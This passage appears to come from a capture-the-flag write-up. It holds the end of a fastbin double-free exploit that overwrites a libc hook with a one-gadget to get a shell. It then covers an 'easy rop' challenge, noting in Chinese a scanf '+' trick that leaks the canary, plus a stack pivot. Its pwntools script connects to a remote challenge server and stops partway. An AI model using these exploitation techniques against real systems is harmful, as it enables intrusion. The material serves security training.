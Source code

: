 ```python
add(0x48, '5')
add(0x48, p64(0xdeadbeef) + p64(0x100) + p64(0) * 6)
add(0x68, '0')
add(0x68, '1')
# add(0x68, '0')
delete(0)
delete(1)
delete(0)
add(0x68,p64(libc+0x3c4aed))
add(0x68, '4')
add(0x68, '5')
add(0x68, 'a' * 0x13 + p64(libc +0xf1147))
p.recv()
p.sendline("1")
p.recv()
p.sendline(str(1))
# dbg()
p.interactive()
```

## easy rop

scanf %d 可利用+或-来实现跳过输入，从而泄漏canary pie，可以溢出到返回地址，rop回去

修改rbp位置为bss，两次leave retn栈迁移，再rop

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
# p = process("./easy_rop")

libc=ELF("/libc64.so")
e = ELF("./easy_rop")
while True:
    p = remote("139.129.76.65","50002")
    # p = process("./easy_rop")

    for i in range(26):
        p.recv()
        p.sendline('+')

    p.recv()
    p.sendline('+')
    p.recvuntil("26 = ")
    low = int(p.recvuntil("\n"))
    p.sendline('+')
    p.recvuntil("27 = ")
    high = int(p.recvuntil("\n"))

    canary = (high << 32) | low


    p.recv()
    p.sendline('+')
    p.recvuntil("28 = ")
    low = int(p.recvuntil("\n"))
    p.sendline('+')
    p.recvuntil("29 = ")
    high = int(p.recvuntil("\n"))

    if (low < 0 or canary < 0):
        p.close()
        continue
```